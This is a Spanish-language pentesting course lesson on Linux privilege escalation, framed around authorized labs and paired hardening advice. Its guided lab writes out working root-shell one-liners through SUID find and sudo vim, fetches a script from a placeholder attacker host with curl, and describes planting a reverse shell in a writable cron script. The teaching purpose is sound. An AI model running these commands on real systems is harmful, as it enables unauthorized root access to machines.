

# Clase 076 — Escalada de privilegios en Linux

> Parte: **3 — Hacking ético y pentesting: metodología** · Fuente: *Georgia Weidman - "Penetration Testing: A Hands-On Introduction to Hacking"; GTFOBins Project*
> ⏱️ Duración estimada: **120 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

El alumno aprenderá a enumerar sistemáticamente un host Linux tras obtener acceso inicial de bajo privilegio, identificar vectores de escalada (SUID/SGID, sudo mal configurado, cron jobs, PATH escribible, kernel vulnerable) y explotarlos de forma controlada en un laboratorio propio, comprendiendo en paralelo cómo un equipo defensivo detecta y cierra cada uno de estos vectores.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. Ejecutar y interpretar la salida de LinPEAS y LinEnum para priorizar vectores de escalada.
2. Identificar binarios SUID/SGID explotables usando GTFOBins como referencia.
3. Detectar y abusar de entradas `sudo -l` mal configuradas para obtener una shell root.
4. Analizar cron jobs con permisos débiles y explotarlos para ejecución de código como root.
5. Explicar el riesgo de un PATH escribible y cómo se usa para secuestrar binarios.
6. Proponer contramedidas de hardening concretas para cada vector estudiado.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|------|------------------|
| 1 | Enumeración post-explotación | Sin visibilidad del sistema no hay ruta de escalada clara |
| 2 | LinPEAS / LinEnum | Automatizan la detección de decenas de vectores en segundos |
| 3 | Binarios SUID/SGID | Ejecutan con el UID del propietario, típicamente root |
| 4 | GTFOBins | Cataloga binarios legítimos abusables para escapar restricciones |
| 5 | `sudo -l` y `/etc/sudoers` | Reglas mal escritas permiten ejecución arbitraria como root |
| 6 | Cron jobs con permisos débiles | Un script editable ejecutado por root equivale a root |
| 7 | PATH escribible | Permite sustituir binarios que un proceso privilegiado invoca sin ruta absoluta |
| 8 | Kernel exploits (concepto) | Kernels desactualizados exponen vulnerabilidades de escalada directa |

## 🧠 Explicación en profundidad

### De un usuario cualquiera a root: por qué casi siempre se puede

Un acceso inicial en Linux suele dar una shell de usuario sin privilegios —el `www-data` de
un servidor web, una cuenta de servicio—, y desde ahí el trabajo es llegar a **root**, que
es el impacto que de verdad se reporta. La escalada casi nunca depende de un exploit del
kernel exótico: depende de **configuraciones incorrectas** que se acumulan en cualquier
sistema con el tiempo. Un permiso de más, un binario SUID innecesario, una regla de `sudo`
mal escrita, un cron editable. La escalada es, sobre todo, un ejercicio de **enumeración
paciente**: encontrar la pieza mal puesta que abre el camino.

Por eso el primer paso siempre es mirar. Sin visibilidad del sistema no hay ruta, y
herramientas como **LinPEAS** y **LinEnum** automatizan la búsqueda de decenas de vectores
en segundos —resaltando en color lo prometedor—, aunque conviene entender qué buscan para no
depender de ellas ni pasar por alto lo que no marcan.

### SUID y GTFOBins: cuando un binario legítimo te hace root

El vector más clásico es el bit **SUID**. Un ejecutable con SUID corre siempre con los
privilegios de su **propietario**, no de quien lo lanza; si el propietario es root, ese
binario se ejecuta como root aunque lo invoque un usuario normal. El mecanismo existe por
razones legítimas (`passwd` necesita escribir en `/etc/shadow`), pero un binario SUID mal
elegido es una escalada servida. La clave la aporta **GTFOBins**: un catálogo de binarios
del sistema —`find`, `vim`, `less`, `nmap`, `awk` y decenas más— que, **si tienen SUID**,
pueden ser manipulados para ejecutar una shell con esos privilegios. Buscar binarios SUID
(`find / -perm -4000 2>/dev/null`) y cruzarlos con GTFOBins es una de las comprobaciones más
rentables del oficio.

### sudo, cron y PATH: los otros tres grandes

**`sudo -l`** lista qué puede ejecutar el usuario actual con privilegios elevados, y sus
sorpresas son frecuentes: un `sudo` que permite ejecutar un editor, un intérprete o un
binario de GTFOBins es root directo; incluso un `sudo` a un script propio permite editar el
script. Los **cron jobs** son el segundo filón: si una tarea programada que ejecuta **root**
llama a un script que el usuario puede **editar** —o que vive en un directorio escribible—,
sustituir su contenido equivale a ejecutar código como root en la siguiente pasada. Y el
**PATH escribible** cierra el trío: si un proceso privilegiado invoca un comando **sin ruta
absoluta** (`backup` en vez de `/usr/bin/backup`) y el atacante controla un directorio que
aparece antes en el `PATH`, puede colocar ahí un binario malicioso con ese nombre y
secuestrar la ejecución.

### El kernel es el último recurso, no el primero

Los **kernel exploits** —aprovechar una vulnerabilidad del propio núcleo para saltar a root—
existen y a veces son la única vía, pero son el recurso de **último recurso** por dos
razones prácticas: pueden **provocar un kernel panic** y tumbar la máquina (un incidente en
un pentest), y dependen de una versión exacta que hay que identificar con precisión. La
disciplina profesional es agotar primero los vectores de configuración —silenciosos y
fiables— y recurrir al exploit de kernel solo cuando no queda otra y las RoE lo permiten.

El cierre de la clase es de método y enlaza con el resto de la parte: cada vector de escalada
encontrado es también un **hallazgo reportable con su remediación** (quitar el SUID, corregir
la regla de sudo, fijar permisos del cron, parchear el kernel). El objetivo no es solo llegar
a root, sino documentar **por qué se pudo** para que el cliente lo cierre.

## 📖 Definiciones y características

- **SUID (Set User ID)**: bit de permiso que hace que un binario se ejecute con los privilegios del propietario del archivo, no del usuario que lo invoca. Característica clave: un SUID root ejecutado sin sanitizar rutas o argumentos es una puerta directa a root.
  - *Enfoque defensivo*: auditar periódicamente `find / -perm -4000` y comparar contra una línea base conocida permite detectar SUID añadidos por un atacante como mecanismo de persistencia.
- **SGID (Set Group ID)**: análogo al SUID pero para el grupo propietario. Característica clave: útil cuando el objetivo es pertenecer a un grupo con acceso a recursos sensibles (por ejemplo, `docker` o `disk`).
  - *Enfoque defensivo*: revisar membresías de grupos privilegiados (`docker`, `disk`, `lxd`) es tan importante como revisar SUID, porque otorgan escalada equivalente sin necesidad de un binario especial.
- **GTFOBins**: proyecto colaborativo que documenta binarios Unix legítimos (find, vim, less, awk, etc.) y cómo abusarlos para bypass de restricciones, lectura de archivos o escalada. Característica clave: cada entrada indica el contexto exacto (sudo, SUID, capabilities) en que aplica.
  - *Enfoque defensivo*: el equipo azul puede usar GTFOBins como checklist para retirar SUID o reglas sudo innecesarias sobre binarios que aparecen en el catálogo.
- **Cron job**: tarea programada por `cron` o `crontab` que se ejecuta con el UID configurado, frecuentemente root para tareas de mantenimiento. Característica clave: si el script apuntado es editable por el atacante, la próxima ejecución corre el payload como root.
  - *Enfoque defensivo*: aplicar el principio de mínimo privilegio sobre los scripts invocados por cron (propietario root, permisos 700) evita este vector por completo.
- **PATH escribible**: variable de entorno que define en qué directorios busca el shell los binarios a ejecutar. Característica clave: si un directorio del PATH es escribible y aparece antes que `/usr/bin`, se puede colocar un binario malicioso con el mismo nombre que uno legítimo invocado sin ruta absoluta.
  - *Enfoque defensivo*: los scripts privilegiados deben invocar siempre binarios con ruta absoluta (`/usr/bin/find` en vez de `find`) para neutralizar este vector.
- **Capabilities de Linux**: mecanismo granular que otorga privilegios específicos (por ejemplo `cap_setuid`) a un binario sin necesitar SUID completo. Característica clave: `getcap -r /` revela binarios con capabilities peligrosas.
  - *Enfoque defensivo*: preferir capabilities granulares sobre SUID completo reduce la superficie de ataque, pero deben auditarse igual, ya que `cap_setuid` equivale a root efectivo.
- **Kernel exploit**: vulnerabilidad en el núcleo del sistema operativo que permite escalar privilegios directamente (por ejemplo Dirty COW, Dirty Pipe). Característica clave: depende de la versión exacta del kernel, por lo que `uname -a` es el primer dato a verificar.
  - *Enfoque defensivo*: mantener el kernel parcheado mediante un ciclo de actualización disciplinado es la única mitigación real; ningún control compensatorio sustituye el parche.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| Escalada de privilegios | Pasar de un usuario limitado a root |
| Enumeración post-explotación | Inspeccionar el sistema en busca de vectores |
| LinPEAS / LinEnum | Scripts que automatizan la detección de vectores |
| Bit SUID | El binario corre con los privilegios de su propietario |
| SGID | Equivalente al SUID para el grupo |
| GTFOBins | Catálogo de binarios legítimos abusables |
| `sudo -l` | Lista lo que el usuario puede ejecutar con privilegios |
| `/etc/sudoers` | Configuración de reglas de sudo |
| Cron job | Tarea programada; si es editable y la corre root, es escalada |
| PATH escribible | Permite suplantar un binario invocado sin ruta absoluta |
| Ruta absoluta | Invocar un comando con su ruta completa evita el secuestro |
| Kernel exploit | Vulnerabilidad del núcleo; último recurso, puede tumbar la máquina |
| Kernel panic | Caída del sistema; riesgo de los exploits de kernel |
| Hallazgo reportable | Cada vector con su remediación para el informe |

## 🧰 Herramientas y preparación

- **Entorno de laboratorio**: una VM Linux vulnerable (por ejemplo un target de VulnHub, HackTheBox o TryHackMe, o una VM propia deliberadamente mal configurada). Nunca se practica esto contra sistemas de terceros sin autorización.
- **LinPEAS**: script de la suite PEASS-ng. Descarga en la VM atacante y transfiere al objetivo vía `python3 -m http.server` + `wget`/`curl`.
- **LinEnum**: script Bash más ligero, útil cuando LinPEAS no puede ejecutarse (por ejemplo en sistemas muy antiguos).
- **pspy**: permite observar procesos y cron jobs en ejecución sin privilegios de root, útil para inferir tareas programadas sin acceso a `/etc/crontab`.
- **linux-exploit-suggester**: script que compara la versión de kernel/paquetes contra una base de CVEs conocidos y sugiere exploits candidatos sin ejecutarlos automáticamente.
- **Snapshots de VM**: antes de probar cualquier kernel exploit, toma un snapshot del estado actual; estos exploits son inestables y pueden colgar o corromper el sistema de laboratorio.
- Acceso SSH o shell reversa ya establecida en el objetivo (asumimos que la clase 075 o equivalente ya cubrió el acceso inicial).

## 🧪 Laboratorio guiado

> Todo lo siguiente se ejecuta exclusivamente contra una VM propia o un target de laboratorio autorizado (HTB, THM, VulnHub). Nunca contra sistemas sin permiso explícito por escrito.

1. Confirma el contexto de usuario y sistema: `id`, `whoami`, `uname -a`, `cat /etc/os-release`.
2. Transfiere LinPEAS al objetivo: en la atacante, `python3 -m http.server 8000` dentro de la carpeta con `linpeas.sh`; en el objetivo, `curl http://IP_ATACANTE:8000/linpeas.sh -o /tmp/linpeas.sh`.
3. Ejecuta y guarda la salida: `chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh -a | tee /tmp/salida.txt`.
4. Revisa la sección de binarios SUID: `find / -perm -4000 -type f 2>/dev/null`. Compara cada resultado contra GTFOBins (<https://gtfobins.github.io>) buscando la técnica "SUID".
5. Si aparece, por ejemplo, `find` con SUID, explota con: `find . -exec /bin/sh -p \; -quit`.
6. Verifica reglas sudo: `sudo -l`. Si aparece una entrada como `(root) NOPASSWD: /usr/bin/vim`, consulta GTFOBins para la técnica "sudo" de `vim` y ejecuta `sudo vim -c ':!/bin/sh'`.
7. Inspecciona cron jobs: `cat /etc/crontab`, `ls -la /etc/cron.d/`, y busca scripts referenciados con permisos de escritura para tu usuario: `find / -writable -type f 2>/dev/null | grep -E 'cron|\.sh$'`.
8. Si un script de cron es escribible, inserta una línea de reverse shell y espera la siguiente ejecución programada (verifica la periodicidad en el crontab).
9. Verifica el PATH y busca directorios escribibles antes de `/usr/bin`: `echo $PATH`, `ls -ld $(echo $PATH | tr ':' ' ')`.
10. Comprueba capabilities peligrosas: `getcap -r / 2>/dev/null` y busca entradas como `cap_setuid+ep` en binarios como `python3` o `perl`.
11. Como último recurso, ejecuta `linux-exploit-suggester.sh` y contrasta la salida contra `uname -a` antes de intentar un kernel exploit; toma un snapshot de la VM antes de probarlo.
12. Documenta cada vector encontrado, la explotación realizada y la contramedida correspondiente, como haría un pentester profesional en su informe.

## ✍️ Ejercicios

1. Enumera manualmente (sin LinPEAS) los binarios SUID de tu VM de laboratorio y clasifica cuáles son explotables según GTFOBins.
2. Configura intencionalmente una entrada `sudoers` insegura (`NOPASSWD: /usr/bin/find`) y documenta el paso a paso de la escalada.
3. Crea un cron job de prueba que ejecute un script propiedad de tu usuario no privilegiado desde una tarea root, y explótalo.
4. Usa `pspy64` para observar en tiempo real un cron job que se ejecuta cada minuto sin necesidad de leer `/etc/crontab`.
5. Investiga y documenta (sin explotar en producción) un CVE de kernel exploit relevante para una versión específica de Ubuntu o Debian.
6. Escribe un script de hardening que corrija automáticamente los tres vectores más comunes encontrados en el laboratorio.

## 📝 Reto verificable

Reto: en la VM de laboratorio asignada (con al menos tres vectores de escalada intencionalmente configurados: un SUID explotable, una regla sudo insegura y un cron job escribible), obtén una shell root usando cada uno de los tres caminos por separado.

Criterio de aceptación: el alumno entrega capturas de `id` mostrando `uid=0(root)` para cada uno de los tres métodos, junto con el comando exacto usado y una explicación de la contramedida de hardening aplicable (por ejemplo, remover el bit SUID, corregir `/etc/sudoers`, o restringir permisos de escritura sobre scripts de cron).

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|---|---|
| `linpeas.sh: Permission denied` | Falta el bit de ejecución; corregir con `chmod +x linpeas.sh` |
| `find: '/proc/...': No such file or directory` en la salida de LinPEAS | Ruido normal por procesos efímeros; ignorar y centrarse en secciones resaltadas en rojo/amarillo |
| `sudo: no tty present and no askpass program specified` | El comando sudo requiere una TTY interactiva; usar `python3 -c 'import pty; pty.spawn("/bin/bash")'` primero |
| La explotación de GTFOBins no da shell root | Verificar que el binario realmente tiene SUID root (`ls -la`) y no solo permisos de ejecución normales |
| El cron job editado nunca se ejecuta | Revisar la sintaxis del crontab y confirmar que el servicio `cron`/`crond` está activo (`systemctl status cron`) |
| Kernel exploit falla o cuelga el sistema | Los exploits de kernel son inestables por diseño; probarlos solo en VMs desechables con snapshot previo |

## ❓ Preguntas frecuentes

**❓ ¿Es legal practicar escalada de privilegios en mi propia laptop con una VM?**
Sí, siempre que la VM y el sistema objetivo sean de tu propiedad o de una plataforma de laboratorio autorizada (HTB, TryHackMe, VulnHub). Nunca lo hagas contra infraestructura de terceros sin contrato de pentesting firmado.

**❓ ¿LinPEAS puede dañar el sistema objetivo?**
Es una herramienta de solo enumeración, no explota nada por sí misma, pero puede generar mucho ruido en logs y consumir CPU; en un engagement real se debe acordar su uso con el cliente.

**❓ ¿Qué hago si no encuentro ningún vector obvio con LinPEAS?**
Revisa capabilities (`getcap -r / 2>/dev/null`), NFS con `no_root_squash`, contenedores Docker mal configurados, y variables de entorno heredadas de procesos root.

**❓ ¿Por qué GTFOBins es una herramienta defensiva y no solo ofensiva?**
Porque permite a un equipo azul auditar qué binarios con SUID o permisos sudo en su infraestructura son abusables, y así retirarles privilegios innecesarios antes de que un atacante los use.

**❓ ¿Debo intentar siempre un kernel exploit si no encuentro otro vector?**
No como primera opción: son inestables, ruidosos y pueden colgar el sistema. Prioriza siempre misconfiguraciones (SUID, sudo, cron, capabilities) y reserva el kernel exploit para cuando el resto de vectores están agotados, y siempre con snapshot previo.

## 🔗 Referencias

- GTFOBins — <https://gtfobins.github.io>
- PEASS-ng (LinPEAS) — <https://github.com/peass-ng/PEASS-ng>
- MITRE ATT&CK, Privilege Escalation (TA0004) — <https://attack.mitre.org/tactics/TA0004/>
- Georgia Weidman, *Penetration Testing: A Hands-On Introduction to Hacking*, No Starch Press.
- OccupyTheWeb, *Linux Basics for Hackers*, No Starch Press.

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-076-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-076-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 075 — msfvenom: generación de payloads](../075-msfvenom-generacion-de-payloads/README.md)

## ➡️ Siguiente clase

[Clase 077 — Escalada de privilegios en Windows](../077-escalada-de-privilegios-en-windows/README.md)
